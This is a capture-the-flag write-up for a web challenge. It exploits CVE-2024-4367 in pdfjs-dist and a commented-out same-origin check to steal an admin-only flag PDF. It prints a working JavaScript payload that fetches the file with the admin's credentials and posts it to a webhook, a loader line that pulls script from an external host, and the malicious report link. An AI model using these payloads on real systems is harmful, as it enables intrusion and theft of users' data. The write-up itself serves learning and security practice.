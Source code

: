 # Do Not Cheat

🤥 Category: _WEB_  
🔗 Url: https://do-not-cheat-bb7d7982d597.1753ctf.com

---

## Discovery

The challenge hosts a website with a collection of cheatsheet PDFs. One file—the one containing the flag—is commented out from the visible list, indicating it is reserved for admin access. The site uses **pdfjs-dist@4.1.392** to display PDFs. This version is vulnerable to Arbitrary Code Injection (CVE-2024-4367), which can be confirmed by spotting the version information in the browser console. The vulnerability details are available on the Snyk website.

Furthermore, in the code there is a curious commented-out block that would normally enforce a strict same-origin policy for PDF files:

```js
//TODO: uncomment this when going to production, this is just because some files were not loading on localhost
/*if (fileOrigin !== viewerOrigin) { 
   throw new Error("file origin does not match viewer's");
}*/
```

This change relaxes domain checks, potentially allowing an attacker to load PDFs from different origins.

---

## Solution

By exploiting the vulnerability in pdfjs-dist, an attacker can craft a malicious PDF that executes JavaScript code when opened by an admin. The injected code fetches the admin-only flag PDF using the admin’s session, converts it into a base64 string, and exfiltrates it to an attacker-controlled webhook.

A working payload for this exploit is:

```js
(function(){
    // URL for the admin-only flag PDF
    const flagUrl = '/app/admin/flag.pdf';
    // Replace with your actual webhook URL
    const webhookUrl = 'https://webhook.site/.../recv';

    // Fetch the PDF with admin credentials
    fetch(flagUrl, { credentials: 'include' })
      .then(response => response.blob())
      .then(blob => {
          // Convert the PDF blob to a base64 string
          const reader = new FileReader();
          reader.onloadend = function() {
              const pdfData = reader.result; // Data URL string (base64 encoded)
              // Send the PDF data to your webhook
              fetch(webhookUrl, {
                  method: 'POST',
                  headers: { 'Content-Type': 'application/json' },
                  body: JSON.stringify({ pdf: pdfData })
              });
          };
          reader.readAsDataURL(blob);
      })
      .catch(console.error);
})();
```

This payload can be embedded into a malicious PDF generated with tools like the PoC from [CVE-2024-4367-PoC](https://github.com/LOURC0D3/CVE-2024-4367-PoC).

It was not originally working with my POC, most likely because the code was either too long or contained some incompatible characters, but I've created a short loader script:

```js
var s=document.createElement('script');s.src='https://webhook.site/...';document.body.append(s)
```

To load the script for me from external source.

Malicious PDF was put online on the site that had CORS headers set to allow downloading it using fetch from any site.
Then I just needed to craft a link that would make an admin open malicious PDF.

https://do-not-cheat-bb7d7982d597.1753ctf.com/report?document=http://some-site.com/poc.pdf

After a moment I could read PDF bytes from webhook.site, and converting it to PDF I got the file with the flag